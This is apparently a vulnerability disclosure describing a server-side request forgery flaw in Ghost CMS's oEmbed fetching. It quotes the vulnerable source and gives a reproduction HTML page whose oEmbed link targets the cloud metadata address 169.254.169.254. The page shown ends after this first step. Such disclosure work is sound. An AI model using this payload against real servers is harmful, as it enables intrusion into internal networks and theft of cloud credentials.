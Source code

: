 ```javascript
    if (provider) {
        return knownProvider(url);
    }
    return request(url, {
        method: 'GET',
        timeout: 2 * 1000,
        followRedirect: true,
        headers: {
            'user-agent': 'Ghost(https://github.com/TryGhost/Ghost)'
        }
    }).then((response) => {
        if (response.url !== url) {
            ({url, provider} = findUrlWithProvider(response.url));
        }
        if (provider) {
            return knownProvider(url);
        }
        const oembedUrl = getOembedUrlFromHTML(response.body);
        if (oembedUrl) {
            return request(oembedUrl, {
                method: 'GET',
                json: true
            }).then((response) => {
                return response.body;
            }).catch(() => {});
        }
    });
}
```
This [function](https://github.com/TryGhost/Ghost/blob/master/core/server/api/canary/oembed.js#L70) is responsible for getting oEmbed URL from external resources.
```javascript
File: /Ghost/core/server/api/canary/oembed.js

const getOembedUrlFromHTML = (html) => {
    return cheerio('link[type="application/json+oembed"]', html).attr('href');
};
```
>"oEmbed is a format for allowing an embedded representation of a URL on third party sites. The simple API allows a website to display embedded content (such as photos or videos) when a user posts a link to that resource, without having to parse the resource directly."

And here we can notice before and after executing getOembedUrlFromHTML() function don’t exist any validation which can prevent against from the SSRF attacks.  

## Steps To Reproduce:

Currently, we know how we can bypass validation in vulnerable route and now we can easily create exploit for this.

First of all, we should create an HTML page with  "link[type="application/json+oembed”]” malicious URL which we would like to discover:
 ```
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Security Testing</title>
    <link rel="alternate" type="application/json+oembed" href="http://169.254.169.254/metadata/v1.json"/>
</head>
<body></body>
</html>
```
